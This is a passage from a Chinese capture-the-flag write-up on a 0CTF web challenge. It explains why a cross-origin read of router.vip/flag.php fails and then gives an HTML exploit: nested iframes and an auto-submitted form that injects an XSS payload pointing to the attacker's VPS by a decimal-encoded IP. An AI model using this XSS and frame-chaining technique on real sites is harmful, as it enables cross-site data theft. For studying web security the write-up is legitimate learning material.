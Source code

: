 ![shell1](https://mo-xiaoxi.github.io/img/post/0ctf/shell1.png)

说明，现在发送数据这个功能是成功的。(其实，这里没有获取到数据，只是https协议的一些乱码数据)

但是，为什么现在没有弹出真正的flag呢，因为iframe这种方式会新建一个层，这样就不再在一个源上了。

```
XMLHttpRequest cannot load https://router.vip/flag.php. No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'https://104.224.169.90' is therefore not allowed access.
```

chrome会报这个错。梳理一下现在的逻辑，我们在preivew页面，让其iframe引用一个html，然后执行html的里面的js，js中对https://router.vip/flag.php发送请求。但是，因为router.vip/flag.php的头没有设置跨域资源共享。我们也没办法去控制router.vip，使其增加头'Access-Control-Allow-Origin' '*';

**所以，这里就gg了。。**

然后，我们想到了出题人博客中，火日大佬的那种思路，两个iframe互相通信，就是前面题目的思路。

用一个iframe去触发xss，新建一个iframe，加载我们VPS的index.html.

index.html,有两个iframe，第一个iframe访问flag.php,第二个页面iframe访问preview页面，同时往preview构造一个表单触发xss，让其再iframe一个VPS的数据。。。说起来好混乱

上代码：

index.html

```html
<html>
<head>
</head>
<body>
<iframe id='1' src='https://router.vip/flag.php'>
</iframe>

<form id="exploit" action="https://router.vip/preview.php" method="POST" target="profile">
    <input name="payload" type="hidden" value="<iframe src=\\3396350939">
</form>

<iframe id='2' name="profile" src='https://router.vip/preview.php'>
</iframe>
<script>document.getElementById('exploit').submit();</script>
</body>
</html>
```

然后，在另外一个VPS（3396350939）上去显示前一个iframe的数据

其实这样还是违反同源的，主要这里还是用iframe这个标签触发。。。导致，会新生成一个源和本来的不一样。

画了个草图：

![origin1](https://mo-xiaoxi.github.io/img/post/0ctf/origin1.png)

整个逻辑就是这样，因为iframe会生成一个源，iframe1，iframe2之所以同源是因为他们两在同一个域。

回顾33c3的题 **yolovault**

题目内容参考这两个博客：
